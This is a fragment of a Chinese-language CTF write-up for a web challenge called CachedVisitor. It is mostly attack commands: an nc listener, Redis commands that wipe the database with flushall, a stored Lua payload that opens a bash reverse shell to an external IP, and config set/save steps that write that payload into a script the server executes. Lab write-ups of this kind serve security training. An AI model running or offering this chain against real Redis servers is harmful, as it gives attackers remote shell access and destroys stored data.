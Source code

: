 ![image-20250120104159730](./ccsssc2025-软件系统安全大赛-web-CachedVisitor.assets/image-20250120104159730.png)





```
nc -lvvp 9999
```



```bash
#删除数据库中的所有键
flushall
set 8 \n\n##LUA_START##\nio.popen("bash -c \'bash -i >& /dev/tcp/120.46.164.35/6800 0>&1\'")\n##LUA_END##\n\n
#更改Redis的工作目录
config set dir /scripts
#更改Redis数据库文件的名称
config set dbfilename visit.script
#命令Redis保存当前数据库状态到磁盘
save
#退出redis命令行，不然没回显
quit
```



```
*1指的是的数量，可理解为下条指令由几个元素构成
$8指的是长度，可理解为下个元素的长度
```
